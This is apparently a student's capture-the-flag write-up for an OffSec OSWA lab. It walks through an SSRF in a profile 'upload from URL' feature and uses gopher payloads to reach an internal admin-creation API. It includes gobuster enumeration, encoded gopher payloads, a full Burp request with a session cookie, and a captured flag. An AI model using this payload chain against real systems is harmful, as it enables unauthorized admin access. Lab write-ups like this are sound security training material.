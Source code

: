 Once searching the webpage was able to find a `CREATE ACCOUNT` option for `GUEST USERS`, created credentials with `test@offsec.com` as the user and `test` for the password

![[Pasted image 20241118132058.png]]
once logging in with those credentials navigate to `PROFILE`
![[Pasted image 20241118132240.png]]
realize that a `UPLOAD FROM URL` option exists, this is a quick identifier of a potential `SSRF` vulnerability - insert kali's IP address, `http://192.168.45.155` before hitting `UPLOAD FROM URL` setup `apache2` server
![[Pasted image 20241118132332.png]]
once the `apache2` server is listening hit `UPLOAD FROM URL`
```bash
┌──(root💀gobots)-[18Nov2024 17:53:57]-[/home/…/SUT/OSWA/challenge_labs/glaucidium]
└─# systemctl restart apache2       
```
this new web page error is shown
![[Pasted image 20241118132608.png]]
check the apache2 `access.log` and see that a curl happened
```bash
┌──(root💀gobots)-[18Nov2024 18:08:57]-[/home/…/SUT/OSWA/challenge_labs/glaucidium]
└─# tail /var/log/apache2/access.log
192.168.183.121 - - [18/Nov/2024:18:15:09 +0000] "GET / HTTP/1.1" 200 10956 "-" "curl/7.80.0"
```
what it looks like in `burpsuite`
![[Pasted image 20241118132923.png]]

need to use `gopher` to use current guest credntials of `test:test` to create a `admin` account named `admintest:admintest`

step 1:
test for api endpoints - seclists webapi endpoints
```bash
┌──(root💀gobots)-[18Nov2024 19:38:06]-[/usr/…/seclists/Discovery/Web-Content/api]
└─# ls -la                            
total 472
drwxr-xr-x  2 root root   4096 Jun 13 12:33 .
drwxr-xr-x 11 root root  12288 Jun 13 12:33 ..
-rw-r--r--  1 root root   1527 Feb 16  2024 README.md
-rw-r--r--  1 root root    773 Feb 16  2024 actions-lowercase.txt
-rw-r--r--  1 root root    772 Feb 16  2024 actions-uppercase.txt
-rw-r--r--  1 root root   1579 Feb 16  2024 actions.txt
-rw-r--r--  1 root root 204325 Feb 16  2024 api-endpoints-res.txt
-rw-r--r--  1 root root   4123 Feb 16  2024 api-endpoints.txt
-rw-r--r--  1 root root 159335 Feb 16  2024 api-seen-in-wild.txt
-rw-r--r--  1 root root  18414 Feb 16  2024 ispsystem_billmanager_api.txt
-rw-r--r--  1 root root    656 Feb 16  2024 objects-lowercase.txt
-rw-r--r--  1 root root    656 Feb 16  2024 objects-uppercase.txt
-rw-r--r--  1 root root  20882 Feb 16  2024 objects.txt
-rw-r--r--  1 root root  24327 Feb 16  2024 salesforce-aura-objects.txt

```


api-test.txt creation to test for web api endpoints
```bash
/api/admin
/api/admin/login
/api/authenticate
/api/auth
/api/users
/api/admin/dashboard
/api/admin/create
```
`gobuster` to see if exists `405` error means that the endpoint exists, just dont have the privileges to access it
```bash
┌──(root💀gobots)-[18Nov2024 19:43:04]-[/home/…/SUT/OSWA/challenge_labs/glaucidium]
└─# gobuster dir -u http://glaucidium:80 -w api-test.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://glaucidium:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                api-test.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/api/admin/login      (Status: 405) [Size: 178]
Progress: 7 / 8 (87.50%)
/api/admin/create     (Status: 405) [Size: 178]                                                      
===============================================================
Finished
===============================================================

```
once we know the ` api endpoint` we can use a tool like `SSRF2gopher.py` to create payloads

I input comments for explanation of fields
```python
┌──(root💀gobots)-[18Nov2024 19:24:03]-[/home/…/OSWA/challenge_labs/glaucidium/SSRF2gopher-main]
└─# python3 SSRF2gopher.py

   ___________  _______                 __          
  / __/ __/ _ \/ __/_  |___ ____  ___  / /  ___ ____
 _\ \_\ \/ , _/ _// __// _ `/ _ \/ _ \/ _ \/ -_) __/
/___/___/_/|_/_/ /____/\_, /\___/ .__/_//_/\__/_/   
                      /___/    /_/                  

Created by eMVee 
    
[?] What is the address of the Host? # the host that is going to be exploited
127.0.0.1
[?] What port should be used for gopher? # the port that gopher is going to use - typically 80
80
[?] What endpoint should be used for gopher? # the endpoint that is going to be targeted - in this case to create an admin user
/api/admin/create
[?] What data would you like to post?  # the credentials that are going to be created
username=admintest&password=admintest

[!] Plain text payload:


gopher://127.0.0.1:80/_POST /api/admin/create HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

username=admintest&password=admintest

[!] URL encoded payload:
gopher://127.0.0.1:80/_POST%20/api/admin/create%20HTTP/1.1%0aHost:%20127.0.0.1%0aContent-Type:%20application/x-www-form-urlencoded%0aContent-Length:%2037%0a%0ausername%3dadmintest%26password%3dadmintest

[!] Double URL encoded payload:
gopher%3a//127.0.0.1%3a80/_POST%2520/api/admin/create%2520HTTP/1.1%250aHost%3a%2520127.0.0.1%250aContent-Type%3a%2520application/x-www-form-urlencoded%250aContent-Length%3a%252037%250a%250ausername%3dadmintest%26password%3dadmintest

[!] Another option that might work via something like BURP: # this payload worked
gopher%3a%2F%2F127.0.0.1%3a80%2F_POST%2520%2Fapi%2Fadmin%2Fcreate%2520HTTP%2F1.1%250aHost%3a%2520127.0.0.1%250aContent-Type%3a%2520application%2Fx-www-form-urlencoded%250aContent-Length%3a%252037%250a%250ausername%3dadmintest%26password%3dadmintest

```
in order for `gopher` to work it typically has to be double encoded, if you use the `BURPSUITE` decode we can see what the `gopher` is actually doing
![[Pasted image 20241118153845.png]]
double de-encoded payload
```bash
gopher://127.0.0.1:80/_POST /api/admin/create HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

username=admintest&password=admintest
```
before double encoding on a one line
```http
gopher://127.0.0.1:80/_POST /api/admin/create HTTP/1.1\nHost: 127.0.0.1\nContent-Type: application/x-www-form-urlencoded\nContent-Length: 37\n\nusername=admintest&password=admintest
```
once getting a proper payload working with `SSRF2Gopher` this was the full payload - ensure to get a burp request that you are logged in as the user created first
```http
POST /api/user/preview/cv HTTP/1.1
Host: glaucidium
Content-Length: 251
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Accept: */*
Origin: http://glaucidium
Referer: http://glaucidium/private/user/profile
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJyrViotTi2KT8tLzE1VslIqSS0uUdKBiGWmKFkZQ9kllQUgaRBbqRYA4IkR9Q.ZzuDPQ.ww9yhZnRpbfCELSv5tv2o9lWPoE
Connection: keep-alive

cv=gopher%3a%2F%2F127.0.0.1%3a80%2F_POST%2520%2Fapi%2Fadmin%2Fcreate%2520HTTP%2F1.1%250aHost%3a%2520127.0.0.1%250aContent-Type%3a%2520application%2Fx-www-form-urlencoded%250aContent-Length%3a%252037%250a%250ausername%3dadmintest%26password%3dadmintest
```
placed into the `cv` parameter and see that account was created
![[Pasted image 20241118154723.png]]
login into the employee login with the created credentials `admintest:admintest`
![[Pasted image 20241118154927.png]]
and retrieve `local.txt` as well as admin access
```
local.txt: 45f5fb14831b5364066c37d57a93aebf
```
![[Pasted image 20241118143533.png]]

```bash
gopher://127.0.0.1:80/_GET%20/status%20HTTP/1.1%0a
```